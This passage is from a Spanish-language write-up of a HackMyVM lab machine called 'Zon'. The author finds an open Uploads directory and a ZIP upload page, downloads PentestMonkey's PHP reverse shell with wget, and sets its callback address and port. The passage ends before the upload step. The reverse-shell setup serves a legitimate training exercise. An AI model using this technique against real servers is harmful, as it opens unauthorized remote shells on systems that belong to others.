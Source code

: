 Vemos un directorio llamado **`Uploads`** el cual si lo visitamos veremos que podemos acceder a él sin problema, lo que pasa es que está vacío. Por otro lado vemos el fichero **`choose.php`** el cual si visitamos veremos que podemos subir ficheros **`ZIP`**:

![UploadZIP](/assets/img/imgs/zon/uploadzip.png)

Intentemos crear un fichero **`ZIP`** con una **`Shell`** en **`PHP`**. Primero me descargaré y editaré el fichero **`PHP`** de [**`PentestMonkey`**](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php):

```shell
┌──(root㉿kali)-[~/…/VMs/HMV/Zon/exploits]
└─# wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
--2024-02-17 19:29:19--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [text/plain]
Saving to: ‘php-reverse-shell.php’

php-reverse-shell.php             100%[============================================================>]   5.36K  --.-KB/s    in 0s      

2024-02-17 19:29:20 (73.5 MB/s) - ‘php-reverse-shell.php’ saved [5491/5491]
```

```php
$ip = '192.168.1.103';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
```
